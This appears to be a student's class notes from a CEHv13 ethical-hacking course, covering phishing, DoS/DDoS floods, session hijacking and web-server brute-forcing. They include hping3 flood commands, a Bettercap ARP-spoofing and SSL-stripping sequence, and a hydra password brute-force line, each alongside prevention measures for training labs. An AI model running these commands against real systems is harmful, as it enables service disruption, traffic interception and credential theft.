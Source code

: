 # CEHv13 Class 7 Notes

# Phishing & Malware

## Phishing - Email as Medium

### Types of Phishing

1. **Email Phishing Scam**
2. **Spear Phishing** - Targeted (e.g., Organizations, Applications)
   - Simplilearn
   - PayPal
3. **Whaling**
   - Targeting high-ranking individuals like CEO, CTO, CISO, Senior Managers

- [VinciWorks Phishing Awareness Course](https://lms.vinciworks.com/review/CourseLaunch/Courseplayer.aspx?queryStringMain=9idBs03r6T8RTjYeCDLdZAAyLoyR1AQwc5X0PESPKvWxCi/o1oaH79ADIeN59Mmf)
- [Google Phishing Quiz](https://phishingquiz.withgoogle.com/)

### Malware Example
- njRAT

---

# DoS and DDoS Attacks

### TCP Flags
- SYN, ACK, RST, PSH, FIN, URG

### Types of Attacks
1. **Bandwidth** - Consuming bandwidth (e.g., 2TB)
2. **Flood** - Overload with multiple requests
3. **Land Attack** - Same source and destination IP
4. **PDOS** - Permanent DoS (e.g., damage for 24 hours or 10,000 requests)
   - Affects CPU, Memory

### Flood Types
- SYN Flood
- ACK Flood
- ICMP Flood (Ping of Death)

### Tools & Commands

```bash
hping -1 <target> --flood        # ICMP Flood
hping3 -S <target> --flood       # SYN Flood
hping3 -R <target> --flood       # RST Flood
```

- [GitHub DDoS via Memcached - Wired](https://www.wired.com/story/github-ddos-memcached/)

### Prevention Techniques
1. **CDN** - Cloudflare, AWS CloudFront
2. **Load Balancer** - [F5 Networks](https://www.f5.com/glossary/load-balancer)
3. **Web-based Protections** - Filter by Ports (80, 443) and Geo-location
4. **Traffic Monitoring** - Wireshark, NSM, Colasoft Capsa
5. **System Updates**

---

# Session Hijacking

### Concept
- Hijacking valid TCP sessions and HTTP requests
- Identity theft via session IDs

### Labs
- [ECCouncil Lab 1](https://eccouncil.learnondemand.net/Lab/44229?instructionSetLang=en)
- [ECCouncil Lab 2](https://eccouncil.learnondemand.net/Lab/33229?instructionSetLang=en)
- [ECCouncil Lab 3](https://eccouncil.learnondemand.net/Lab/22229?instructionSetLang=en)
- [Lab Client](https://labclient.labondemand.com/LabClient/40ec70d7-c159-4b05-a48c-5366b255167f)

### Tools: Bettercap, Hetty

```bash
sudo su
bettercap -h
ifconfig
ip route eth0, wlan0, en0
bettercap -iface wlan0

# Inside Bettercap
> help
> net.probe on
> net.recon on
> set http.proxy.sslstrip true
> set arp.spoof.internal true
> set arp.spoof.targets 10.10.1.11
> http.proxy on
> net.sniff on
> arp.spoof on
```

### Captured Info
1. All URLs
2. HTTP Session Requests

### Prevention
1. VPN
2. Personal Hotspot
3. SIEM, SOC Monitoring (e.g., ARP packets, Promiscuous mode detection)

---

# Hacking the Web Server

### Communication Process
- Request and Response

### Server Technologies
- IIS (Internet Information Services)
- Apache
- Tomcat
- Databases: MySQL, MSSQL, Oracle, MongoDB

### Common Ports
- HTTP/HTTPS: 80, 443
- SSH: 22
- Telnet: 23
- RDP: 3389
- FTP: 21

### Cloud-Based Attacks
- SSH, Telnet, FTP, RDP Bruteforce

### Scanning & Brute-force

```bash
nmap -p 21,22,23,3389 <target>

hydra -L "Username.txt" -P "Password.txt" ftp://<Target>
```